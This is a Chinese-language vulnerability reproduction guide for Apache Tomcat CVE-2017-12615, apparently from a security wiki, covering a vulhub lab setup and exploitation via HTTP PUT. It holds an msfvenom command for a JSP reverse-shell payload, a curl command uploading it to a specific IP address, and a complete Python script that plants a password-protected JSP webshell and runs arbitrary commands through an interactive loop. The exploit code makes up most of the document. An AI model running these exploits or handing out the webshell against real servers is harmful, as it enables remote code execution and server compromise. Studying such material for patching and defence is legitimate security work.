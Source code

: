 # Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615

## 漏洞描述

2017年9月19日，Apache Tomcat官方确认并修复了两个高危漏洞，其中就有远程代码执行漏洞(CVE-2017-12615)。当 启用了HTTP PUT请求方法（例如，将 readonly 初始化参数由默认值设置为 false），攻击者将有可能可通过精心构造的攻击请求数据包向服务器上传包含任意代码的 JSP 文件，JSP文件中的恶意代码将能被服务器执行。导致服务器上的数据泄露或获取服务器权限。

## 影响版本

> [!NOTE]
>
> Apache Tomcat 7.0.0 - 7.0.81

## 环境搭建

```
https://github.com/vulhub/vulhub.git
cd vulhub/tomcat/CVE-2017-12615
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:8080/ 正常即可

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/162736344682759.jpg)

## 漏洞复现

漏洞产生的主要原因来自于**conf/web.xml**文件配置错误,readonly开启了false,导致可以使用**PUT/DELETE**请求方法操作文件

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/16273634471107242.jpg)

**msf**生成一个**jsp**木马

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=9999 -f raw > shell.jsp
```

利用PUT方法上传木马

```
curl -v -X PUT --data-binary @shell.jsp "http://81.68.139.186:8080/shell.jsp/"
```

> [!NOTE]
>
> 注意 http://xxx.xxx.xxx.xxx:8080/shell.jsp/中的最后一个"/"字符很重要

发现成功上传木马文件

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/1627363447452259.jpg)

访问文件即可反弹一个shell

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/1627363447712678.jpg)

也可以使用**DELETE**请求方法删除文件

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/1627363447984427.jpg)

## 漏洞利用POC

> [!NOTE]
>
> 代码只用于检测漏洞，反弹shell参照上方

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import hashlib
import sys
import requests
import random
import re

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Apache Tomcat 7.0.0 - 7.0.81                             \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-12615.py                                 \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:8080                            \033[0m')
    print('+  \033[36mCmd    >>> shell                                                  \033[0m')
    print('+  \033[36mCmd    >>> exit(退出交互并删除webshell)                              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    md5_filename = str(random.randint(1,999)).encode("utf-8")
    file_name = hashlib.md5(md5_filename).hexdigest()
    vuln_put_url = target_url + "/" + file_name + ".jsp/"

    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
    <%
    if("peiqi".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
        int a = -1;          
        byte[] b = new byte[1024];                 
        while((a=in.read(b))!=-1){
            out.println(new String(b));          
        }
    } 
    %>
    """
    try:
        response = requests.request("PUT", url=vuln_put_url, data=data, headers=headers, timeout=30)
        if response.status_code == 201 or response.status_code == 201:
            print("\033[32m[o] 含有CVE-2017-12615漏洞，成功上传shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 漏洞利用失败,PUT方法关闭 \033[0m")
        sys.exit(0)

def POC_2(target_url, file_name, cmd):
    vuln_cmd_url = target_url + "/" + file_name + ".jsp?" + "pwd=peiqi&cmd=" + cmd
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.get(url=vuln_cmd_url, headers=headers,timeout=30)
        if response.status_code == 200:
            print("\033[32m[o] 成功执行命令,响应为:\n\033[0m",response.text)
        else:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)
    except:
            print("\033[31m[x] 漏洞利用失败,命令无法执行 \033[0m")
            sys.exit(0)

def POC_3(target_url, file_name):
    vuln_delect_url = target_url + "/" + file_name + ".jsp/"
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    try:
        response = requests.request("DELETE", url=vuln_delect_url, headers=headers, timeout=30)
        if response.status_code == 200 or 201:
            print("\033[32m[o] 成功删除shell，文件名为{}.jsp,响应为{}\033[0m".format(file_name,response.status_code))
            return file_name
        else:
            print("\033[31m[x] 删除失败 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 删除失败 \033[0m")
        sys.exit(0)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_name = POC_1(target_url)

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            POC_3(target_url, file_name)
            sys.exit(0)
        else:
            POC_2(target_url, file_name, cmd)

```

![](Apache-Tomcat-远程代码执行漏洞-CVE-2017-12615.assets/1627363448330299.jpg)